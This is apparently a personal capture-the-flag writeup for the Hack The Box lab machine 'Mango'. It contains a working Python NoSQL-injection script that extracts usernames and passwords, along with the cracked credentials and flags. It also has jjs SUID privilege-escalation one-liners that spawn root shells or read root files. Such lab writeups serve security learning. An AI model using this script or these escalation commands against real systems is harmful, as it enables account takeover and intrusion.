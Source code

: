 ```yaml
---
layout: post
title: "MANGO - Linux Easy Hack The Box writeup"
date: 2020-04-21
categories:
    - htb
    - linuxbox
tags:
    - easy_box
    - linux_box
    - htb
---
```


## Machine Details:
**IP Address :** 10.10.10.162

## Flags:
User: 79bf31c6

Root: 8a8ef79a

## Hints:
Name of the Machine - might be related to MongoDB.
SSL certificates


# Take Away
* Inspect the HTTPs website - certificates
* Make a habit of registering the hostnames locally.
* Look more into the home folder of the user, likely contains some hint

# Recon:
## nmap
scan command: `nmap -p- `
```
scan results
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)      
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))  
443

```

## Web Page found:
Https has some unknown certificate: https://10.10.10.162/

It talks about staging-order.mango.htb, added this as an hostname to /etc/hosts

Voila, there is an webpage (which was previously not present) in the http:// and not https:// webpage.

http://staging-order.mango.htb/

Has a log in screen, might be related to Mongo DB.


# Foothold :
For the login web page, Trying to use: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
the python script gives erroneous results.

The python script from https://book.hacktricks.xyz/pentesting-web/nosql-injection Gave proper output :)

## Script Used:
Notice: I guessed the name admin as the username from the certificate, and mango since the name of the machine is mango. :) - if it fails will enumerate the username as well.
```python
import requests
import string

url = "http://staging-order.mango.htb"
headers = {"Host": "staging-order.mango.htb"}
cookies = {"PHPSESSID": "k90e8p8k65a6b0b1rgbck1tutk"}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":"", "login": "login"}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
            if int(pr.status_code) == 302:
                print("pass",c)
                password += c
                break
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")

def get_usernames():
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
    for c in possible_chars:
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
        if int(pr.status_code) == 302:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break

                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames

usernames = ["admin","mango"]
for u in usernames:
    get_password(u)

```

Was able to find the passwords:
```
admin : t9KcS3>!0B#2
mango : h3mXK8RhU~f{]f5H
```

Screen-Shot of the script output.

![f4bc96690381ae8e708dfd9567e1a274.png](../_res/f4bc96690381ae8e708dfd9567e1a274.png)


Logging into the website gave:

![38e6dd193b053e4ddcbe00572afa2b08.png](../_res/38e6dd193b053e4ddcbe00572afa2b08.png)

# User:

SSH into the box with the previous passwords:
admin - fails
mango - works :)

```
su admin
cat /home/admin/user.txt
79bf31c6c6
```

# Priv Esc:

su admin
password is the one found above.


# Root:

Checked a bunch of stuffs did not help corntab looks to be running. Might come back to this latter.

Will try to run the LinuxEnum Script.

```
Attacker Machine:
cd /root/HTB/LOCAL/LinEnum
python -m SimpleHTTPServer 8080

Target Machine:
wget http://10.10.15.72:8080/LinEnum.sh
```
Interesting Findings:
```


[+] Possibly interesting SGID files:
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

[+] Possibly interesting SUID files:                                              
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs      
```

Lets try:
```
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

This Freezes but we see #

echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc ls /root/').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

Did not work :(

sh -c 'cp $(which jjs) .; chmod +s ./jjs'
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh id').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p cat /root/root.txt').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh id').waitFor()
Java.type('java.lang.Runtime').getRuntime().exec('ls -la /root/').waitFor()
```

looked more into the home folder of the user.

```
ls -la /home/admin
found a file for jjs history; found this code snippet..

var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }

```

Works :)
Owned the Root.
